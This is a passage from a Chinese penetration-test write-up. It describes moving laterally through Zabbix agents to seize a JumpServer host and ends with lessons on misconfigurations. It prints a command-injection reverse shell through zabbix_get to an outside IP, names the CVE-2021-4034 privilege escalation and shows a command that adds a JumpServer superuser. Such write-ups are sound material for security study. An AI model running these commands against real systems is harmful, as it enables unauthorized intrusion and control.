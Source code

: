 ![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/3d73b614-085b-4f10-8073-69f85e750da6.png?raw=true)

### 0x04 获取Jumpserver权限

为了确认该系统有哪些业务，选择了一台标签为 web 的机器，进行反弹 shell。

`zabbix_get -s 172.19.19.19 -p 10050 -k "chk.ssl_access[1, &&bash -i >&/dev/tcp/1.1.1.1/443 0>&1]"  
`

同样使用 CVE-2021-4034 进行提权，查看进程，是一个 java 起的网站， 然后用 nginx 做了访问控制。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/1f0c76be-cf6f-4f05-9f2a-c61c1152ec81.png?raw=true)

打web服务和数据库的过程此处略过。通过 last 命令查看服务器的登陆 ip，发现都是从一个 ip 进行登陆，扫了一下该 ip 的全端口，在一个比较偏的端口发现了jumpserver服务。

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/c534518d-274d-487e-be30-27e16493bd6c.png?raw=true)
  

恰巧这台也在 zabbix agent 里，重复之前操作，拿下这台 jumpserver 服务器。

通过自有脚本添加 jumpserver 超级管理员：

`cd /opt/jumpserver/apps  
python manage.py createsuperuser --username=user --email=user@domain.com   
`

成功进入

![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/3/335ee048-2e25-4baf-8939-ad51dd16205d.png?raw=true)

课代表划重点
------

1.  Django的debug有时会闯大祸，同理其他debug也是，例如laravel等等。
    
2.  Agent通过`zabbix proxy`对server进行数据上报的话，只有在`zabbix proxy`服务器上才能agent使用`zabbix_get`命令读取文件。
    
3.  jumpserver的配置文件权限控制不严格，zabbix用户即可读。
    
4.  `vfs.file.regexp` 可以突破 `vfs.file.contents` 读取文件的大小限制。
    
5.  通过配置文件中的`BootstrapToken`和`accesskey`可以实现通过服务账户控制jumpserver内的主机。
    
6.  `EnableRemoteCommands` 参数未开启时可以关注 `UnsafeUserParameters` 参数，避免措施打agent的机会。
    
7.  jumpserver自带的脚本可以直接添加新用户进入系统。
    

注：Roc木木的文章距离当前有一段时间，当时还没有出现  Polkit 和 DirtyPipe 提权。

LAST
----

公众号荒废的这段时间里工作和生活都发生了很多的变化，不过没变的倒是自己一直以来疯狂欠学习的状态。有趣的事情倒是也遇到过一些、写过一些，有机会的话再发一发。

两年多的时间风云变幻，疾病、战争、行业风口更迭，感谢还在关注的大伙们，祝大家健康平安，诸事顺遂。